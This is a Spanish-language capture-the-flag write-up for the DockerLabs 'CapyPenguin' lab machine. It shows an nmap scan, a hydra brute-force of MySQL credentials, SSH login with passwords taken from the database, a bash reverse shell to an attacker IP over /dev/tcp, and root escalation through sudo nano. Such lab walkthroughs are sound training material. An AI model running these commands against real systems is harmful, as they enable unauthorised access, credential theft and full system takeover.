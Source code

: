 # Máquina CapyPenguin

***

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3306/tcp open  mysql   syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e6a3f89de9d05d99432738d31e0a5eb (ECDSA)
|_  256 e7ef4f4a2586c955b0880a8c7903d09f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Web de Capybaras
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
```

Vemos algo más de información sobre los servicios. Vemos la versión de SSH, la de Apache, y algo de información extra sobre la base de datos MySQL que corre como en la mayoría de casos por defecto en el puerto 3306.

Inspeccionaremos la página web que corre por el puerto 80:

![Pasted image 20240413135355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45e62bc6-8d09-43b8-9428-f9a37ec4c214)

_"**Hola capybarauser, esta es una web de capybaras. He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou**"_

Nos dan una pista, y es que la contraseña de **"capybarauser"** se encuentra al final del famoso diccionario **rockyou**. El comando **tac** que se menciona, permite leer y mostrar el contenido de un archivo en orden inverso. De forma que le aplicamos este comando al **rockyou** y almacenamos el resultado en un nuevo fichero que llamaré "**MiRockYou.txt**" para poder usarlo como diccionario en un ataque de fuerza bruta.

```shell
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

***

## Explotación

Tenemos que tener cuidado con las primeras líneas del nuevo diccionario, que están corruptas, quitamos los caracteres extraños y continuamos con la fuerza bruta. Con este nuevo diccionario realizaremos un ataque de fuerza bruta contra el puerto **3306** donde corre el servicio **MySQL**.. Lo haremos con la herramienta **hydra**.

```shell
hydra -l capybarauser -P MiRockYou.txt mysql://172.17.0.2 -t 4
----------------------------------------------------------------
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales para el usuario **capybarauser:ie168**

Accedemos a la base de datos con las nuevas credenciales:

```shell
mysql -h 172.17.0.2 -P 3306 -u capybarauser -p
(ponemos la contraseña ie168)
```

Enumeraremos un poco la base de datos.

```sql
MariaDB [(none)]> SHOW DATABASES;
------------------------------------
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
```

```sql
USE pinguinasio_db;
SHOW TABLES;
-------------------------------
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0,001 sec)
```

```sql
SELECT * FROM users;
------------------------------
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0,001 sec)
```

Encontramos un usuario y su contraseña: "**mario:pinguinomolon123**" Trataremos de entrar por **SSH**.

```shell
ssh mario@172.17.0.2
```

Estamos dentro !

***

### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Hacemos un **sudo -l** para ver si podemos ejecutar algo con privilegios de otro usuario o de root.

```shell
sudo -l
------------------
(ALL : ALL) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario root. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![Pasted image 20240415220430](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/0c76c1a8-1d89-46c3-bc06-2aafe6c7b515)

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
root
```
